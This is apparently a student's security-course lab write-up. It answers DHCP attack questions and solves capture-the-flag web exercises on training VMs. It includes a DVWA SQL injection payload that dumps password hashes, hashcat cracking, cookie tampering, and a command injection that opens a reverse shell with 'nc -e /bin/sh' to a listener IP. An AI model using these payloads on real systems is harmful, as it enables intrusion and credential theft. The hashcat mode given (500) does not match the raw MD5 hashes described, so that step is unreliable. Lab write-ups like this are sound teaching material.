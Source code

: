 
> [!exercise]+ Exercise 1 - DHCP Attack
>
> Another type of attack that was not included in the workshop is DHCP (dynamic host configuration protocol) based attacks. Do a bit of research into how DHCP works and about some DHCP attacks and answer the following questions.
>
> 1. What are the 4 packets (messages) that are communicated between the client seeking and IP address and the DHCP server?
>
> 2. Are the 4 messages Layer 2 unicast or broadcast (be careful not to confuse between Layer 3 broadcast, which is sending to an IP broadcast address like 10.0.2.255, as opposed to Layer 2 broadcast which is sent to MAC address FF:FF:FF:FF:FF:FF).
>
> 3. Therefore, in a switched network, which of the 4 messages in the DHCP negotiation would the attacker be able to observe?
>
> 4. Briefly explain what DHCP spoofing and DHCP starvation attacks are executed, and how the two can be used in combination. 
>
> 5. For an adversary looking to perform MITM, which DHCP configuration option(s) would you try to manipulate?
>
> 6. Briefly explain how "DHCP **snooping**" configuration in a switch work to prevent DHCP **spoofing**?
>
> **Answers:**
>
> 1. The four messages exchanged between a client and the DHCP server are **DHCP Discover, DHCP Offer, DHCP Request, and DHCP Acknowledgement**. These messages allow the client to **find a DHCP server, receive an IP address offer, formally request that IP address, and finally obtain confirmation** of the assigned address from the server.
>
> 2. DHCP **Discover and DHCP Request messages are sent as Layer 2 broadcasts** because the client does not have an IP address configured yet. DHCP **Offer and DHCP Acknowledgement messages are sent as Layer 2 unicasts** directly to the client's MAC address.
> 3. In a switched network environment, an attacker would be **able to see the DHCP Discover and DHCP Request messages** since they are broadcast and thus sent to all ports on the switch. However, the attacker would not be able to directly observe the DHCP Offer and DHCP Acknowledgement messages since those are unicast between the server and client.
>
> 4. In a DHCP spoofing attack, the attacker sets up a malicious DHCP server and tries to trick clients into using its services instead of the legitimate one. This allows the attacker to provide false IP configuration to the clients. A DHCP starvation attack involves exhausting the IP address pool on the real DHCP server by flooding it with a large number of DHCP requests. When combined, these attacks can prevent clients from getting valid IP addresses and configuration from the real server, while allowing the attacker to provide them with malicious settings from the rogue server.
>
> 5. To carry out a successful MITM attack, an adversary would likely focus on manipulating the DNS server and default gateway settings handed out by the DHCP server. By providing a false DNS server, the attacker can resolve domain names to IP addresses of their choosing, redirecting client traffic. By setting a false default gateway, the attacker can intercept and inspect the client's traffic. Other settings like NTP or WINS servers could also be potential targets.
>
> 6. DHCP snooping is a security feature that can be enabled on network switches to combat rogue DHCP servers and IP spoofing. When DHCP snooping is configured, the switch analyzes DHCP messages and builds a binding table to track IP addresses assigned to each switch port. Ports are classified as trusted or untrusted, and only trusted ports are allowed to send DHCP server messages like DHCP Offer. This prevents malicious DHCP servers on untrusted ports from handing out fake IP addresses and configuration. DHCP snooping can help ensure that only legitimate DHCP servers are providing IP addresses on the network.


> [!exercise]+ Exercise 2 - MITM Prevention
> 1. Briefly explain (1 or 2 sentences max) how HTTPS can defeat MITM via ARP cache poisoning.
> 2. In the same context, why did Chrome developers decided to display "Not Secure" on HTTP websites?
> 3. In the same context, what's the danger of ignoring a browser error message like this one and clicking on "Continue to this website"?
> 4. Briefly write an explanation that you might provide to your grandparent (or anyone who may not be IT savvy) why they should be careful when connecting to open WiFi hotspots like the ones at airports.



> [!exercise]+ Exercise 3 
> Go to `http://<Your Hacklab VM IP addr>:8081/method.php` to get the secret!
> 
> **Answer:**
> Initially, I tried visiting the site in my browser but only received a hint: `"Hm... you don't seem to be using the correct METHOD. Explore your available OPTIONS."` This made it clear that I should attempt an `OPTIONS` request via `curl`.
> 
> ```bash
> curl -X OPTIONS http://192.168.56.113:8081/method.php
> ```
> 
> This returned the flag:
> ```
> csf2021_{helper-evaluate-mammogram}
>```


> [!exercise]+ Exercise 4
> Access `http://192.168.56.113:8081/admin.php` to get the secret!
> 
> **Answer:**
> I visited the page and clicked on the request button, which revealed the hint: `"Sorry, only superadmins are allowed to see the secret."` This led me to inspect the cookies via the browser’s developer tools.
> 
> I adjusted the `superuser` cookie to `true` and clicked on the request button again:
> 
> ```
> Welcome Super User! Here is the secret: csf2021_{client-postbox-amid}
> ```
> 
> ![[Pasted image 20240502052455.png]]


> [!exercise]+ Exercise 5
> When on the high-security setting of DVWA, go to the SQL injection section and attempt to exploit the vulnerability. A helpful hint is to examine the source code present on the page. Retrieve the hash associated with the user ‘1337’ and also convert the hash to its plaintext form. Explain the process of exploiting the vulnerability, identify the type of hash obtained, and describe the method used to convert the hash to plaintext.
> 
> **Answer:**
> 
> I started off by looking at the PHP source code of the SQL Injection page. I noticed that the query was directly incorporating user inputs via session variables into an SQL command. This configuration was particularly vulnerable to SQL injection ... especially if those session variables could be altered!
> 
> ```
> a' UNION SELECT user, password FROM users -- -&Submit=Submit
> ```
> 
> I injected into the session variable to manipulate the SQL query. This injection effectively combined a falsified SQL command with the original, intended to pull user names and passwords directly from the database.
> 
> ```
> ID: ID: a' UNION SELECT user, password FROM users -- -&Submit=Submitit=Submit  
First name: admin  
Surname: 5f4dcc3b5aa765d61d8327deb882cf99
>
>ID: ID: a' UNION SELECT user, password FROM users -- -&Submit=Submitit=Submit  
>First name: gordonb  
>Surname: e99a18c428cb38d5f260853678922e03
>
>ID: ID: a' UNION SELECT user, password FROM users -- -&Submit=Submitit=Submit  
>First name: 1337  
>Surname: 8d3533d75ae2c3966d7e0d4fcc69216b
>
>ID: ID: a' UNION SELECT user, password FROM users -- -&Submit=Submitit=Submit  
>First name: pablo  
>Surname: 0d107d09f5bbe40cade3de5c71e9e9b7
>
>ID: ID: a' UNION SELECT user, password FROM users -- -&Submit=Submitit=Submit  
>First name: smithy  
>Surname: 5f4dcc3b5aa765d61d8327deb882cf99
>```
> 
> The output displayed the hash for user ‘1337’ as `8d3533d75ae2c3966d7e0d4fcc69216b`. From workshop 8, we know that these are md5 hashes WITHOUT salts, so we can now begin decrypting it to plain text.
> 
> - I've added an excerpt from workshop 5 to verify this
> ```
> passwords here are MD5 hashes, not plaintext passwords. But you can right away tell that the password for the user admin is the same as smithy, becuase their password hashes are identical (this is why password SALT is so important, as we will learn in later workshops).
> ```
> 
> Using the same hashcat method from assignment 1 with the `rockyou.txt` dictionary, we find that the plaintext password is `charley`
> 
> ```
> hashcat -m 500 -o out hash rockyou.txt --force
> 
> ...
> 
> 8d3533d75ae2c3966d7e0d4fcc69216b:charley
> ```
> To confirm the findings, I logged back into the DVWA using the credentials `1337` and `charley`, verifying that the password matched, thereby successfully exploiting the vulnerability and decrypting the hash.
> 
> ![[Pasted image 20240502104809.png]]


> [!exercise]+ Exercise 6
> Go to `http://<Your Hacklab VM IP addr>:8083/doa.php` to get the secret!
> 
> **Answer:**
> 
> Upon navigating to the webpage and seeing user input, I suspected a possible command injection vulnerability. Before attempting to exploit the vulnerability, I set up a **netcat listener** on my local machine using:
> 
> ```
> nc -lvp 1234
> ```
> 
> After setting up the listener, I submitted the form with the injected command and awaited the connection on my local machine.
> 
> ```
> 127.0.0.1 & nc -e /bin/sh 192.168.117.124 1234
> ```
> I now have a **reverse shell!** Using `ls -a` command to list all hidden files, I found `.the_secret_file`.
> 
> I then used the `cat` command to reveal its contents:
> 
> ```
> cat .the_secret_file
> ```
> ```
> ___________________________________________
> / csf2024s1_{botchier-disquiparancy-propp \
> \ er}                                     /
>  -----------------------------------------
>         \   ^__^
>          \  (oo)\_______
>             (__)\       )\/\
>                 ||----w |
>                 ||     ||
> ```
> 

